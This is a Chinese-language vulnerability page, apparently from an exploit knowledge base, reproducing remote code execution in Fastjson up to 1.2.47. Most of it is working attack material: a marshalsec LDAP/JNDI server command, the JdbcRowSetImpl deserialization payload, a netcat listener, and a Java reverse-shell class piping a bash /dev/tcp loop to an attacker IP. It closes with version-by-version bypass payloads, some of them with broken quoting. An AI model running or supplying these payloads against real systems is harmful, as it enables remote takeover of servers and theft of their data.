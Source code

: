 ```yaml
---
title: "Fastjson <=1.2.47 远程代码执行漏洞"
id: zhfly2932
---
```


# Fastjson <=1.2.47 远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Fastjson < 1.2.47

## 三、复现过程

**https://github.com/ianxtianxt/fastjson-1.2.47-RCE-1**

*   执行：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IPvps/#Exploit 
```

![1.png](../img/9b3e00b075cd75d5c4a2b2b1dd16f855.png)

*   修改反弹ip和端口：

```
vim Exploit.java 
```

*   编译生成class：//`需要使用jdk1.8，否则会报错`

```
javac Exploit.java 
```

*   开启http服务：

```
python3 -m http.server 80 或者 python -m SimpleHTTPServer 80 
```

*   payload:

```
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}} 
```

*   开启nc监听反弹：

```
nc -lvvp 8888 
```

### 反弹shell poc补充

#### **java反弹shell，无法直接使用bash -i >& /dev/tcp/攻击服务器ip/8888 0>&1**

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{

public Exploit() throws Exception {

Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c",“exec 5<>/dev/tcp/攻击服务器ip/888;cat <&5 | while read line; do $line 2>&5 >&5; done”});

InputStream is = p.getInputStream();

BufferedReader reader = new BufferedReader(new InputStreamReader(is));

```
 String line;
    while((line = reader.readLine()) != null) {
        System.out.println(line);
    }

    p.waitFor();
    is.close();
    reader.close();
    p.destroy();
}

public static void main(String[] args) throws Exception {
} 
``` `}` 
```

### 补充

**https://github.com/ianxtianxt/Fastjson-1.2.47-rce**

```
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

未知版本(1.2.24-41之间)

{"@type":“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}

1.2.41

{"@type":“Lcom.sun.rowset.RowSetImpl;”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}

1.2.42

{"@type":“LLcom.sun.rowset.JdbcRowSetImpl;;”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true};

1.2.43

{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true]}

1.2.45

{"@type":“org.apache.ibatis.datasource.jndi.JndiDataSourceFactory”,“properties”:{“data_source”:“rmi://localhost:1099/Exploit”}} `1.2.47

{“a”:{"@type":“java.lang.Class”,“val”:“com.sun.rowset.JdbcRowSetImpl”},“b”:{"@type":“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}}}` 
```